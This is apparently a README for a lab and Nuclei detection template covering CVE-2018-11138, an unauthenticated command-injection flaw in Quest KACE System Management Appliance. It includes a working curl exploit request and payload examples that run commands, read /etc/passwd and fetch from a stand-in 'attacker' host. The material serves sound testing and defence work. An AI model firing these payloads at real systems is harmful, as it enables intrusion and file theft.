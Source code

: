 # CVE-2018-11138 - Quest KACE System Management Appliance RCE

## Vulnerability Overview

**CVE ID:** CVE-2018-11138  
**Severity:** Critical (CVSS 9.8)  
**Affected Version:** Quest KACE System Management Appliance 8.0.318  
**Vulnerability Type:** Remote Code Execution (RCE)  

## Description

The `/common/download_agent_installer.php` script in the Quest KACE System Management Appliance 8.0.318 is accessible by anonymous users and can be abused to execute arbitrary commands on the system. This vulnerability allows unauthenticated attackers to execute shell commands with the privileges of the web server user.

## Technical Details

### Attack Vector
- **Endpoint:** `/common/download_agent_installer.php`
- **Method:** POST
- **Authentication:** None required
- **Parameter:** `custom_install_options` (command injection)

### Payload Structure
```
POST /common/download_agent_installer.php
Content-Type: application/x-www-form-urlencoded

platform=linux&custom_install_options=;COMMAND;echo+
```

## Testing Environment Setup

### Option 1: Using Docker (Recommended)

1. **Build the vulnerable environment:**
   ```bash
   cd code/cves/2018/CVE-2018-11138
   docker build -t quest-kace-vulnerable .
   ```

2. **Run the container:**
   ```bash
   docker run -d -p 8080:80 --name quest-kace-test quest-kace-vulnerable
   ```

3. **Test with Nuclei:**
   ```bash
   nuclei -u http://localhost:8080 -t http/cves/2018/CVE-2018-11138.yaml -debug
   ```

### Option 2: Manual Testing

1. **Using curl:**
   ```bash
   curl -X POST http://target:80/common/download_agent_installer.php \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -d "platform=linux&custom_install_options=;id;echo+"
   ```

2. **Using the Python test script:**
   ```bash
   python3 test-payloads.py http://target:80
   ```

## Nuclei Template Testing

### Basic Test
```bash
nuclei -u http://target:80 -t http/cves/2018/CVE-2018-11138.yaml
```

### Debug Mode
```bash
nuclei -u http://target:80 -t http/cves/2018/CVE-2018-11138.yaml -debug -v
```

### Bulk Testing
```bash
nuclei -l targets.txt -t http/cves/2018/CVE-2018-11138.yaml -o results.txt
```

## Expected Results

### Positive Detection
- Nuclei will detect the vulnerability if the target is vulnerable
- Interactsh callback will be received confirming command execution
- HTTP 200 response from the vulnerable endpoint

### Debug Output
```
[INF] [CVE-2018-11138] Dumped HTTP request for http://target:80/common/download_agent_installer.php
[INF] [CVE-2018-11138] Dumped HTTP response for http://target:80/common/download_agent_installer.php
[INF] [CVE-2018-11138] Interactsh callback received: http://callback-url
```

## Payload Examples

### Basic Command Execution
```
platform=linux&custom_install_options=;id;echo+
```

### Reverse Shell (if curl available)
```
platform=linux&custom_install_options=;curl+http://attacker:4444/shell;echo+
```

### File Read
```
platform=linux&custom_install_options=;cat+/etc/passwd;echo+
```

### Network Reconnaissance
```
platform=linux&custom_install_options=;netstat+-an;echo+
```

## Mitigation

1. **Immediate Actions:**
   - Restrict access to `/common/download_agent_installer.php`
   - Implement proper authentication for all administrative endpoints
   - Apply input validation and sanitization

2. **Long-term Solutions:**
   - Upgrade to the latest version of Quest KACE System Management Appliance
   - Implement proper access controls and authentication
   - Regular security assessments and penetration testing

## References

- [Core Security Advisory](https://www.coresecurity.com/advisories/quest-kace-system-management-appliance-multiple-vulnerabilities)
- [Exploit-DB](https://www.exploit-db.com/exploits/44950/)
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2018-11138)
- [CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11138)

## Files Included

- `Dockerfile` - Vulnerable environment setup
- `docker-compose.yml` - Easy deployment
- `test-payloads.py` - Python testing script
- `test-template.sh` - Bash testing script
- `debug-output.txt` - Sample debug output
- `vulnerable-app/` - Simple vulnerable PHP application for testing

## Disclaimer

This template and testing environment are provided for educational and authorized security testing purposes only. Always ensure you have proper authorization before testing any systems. 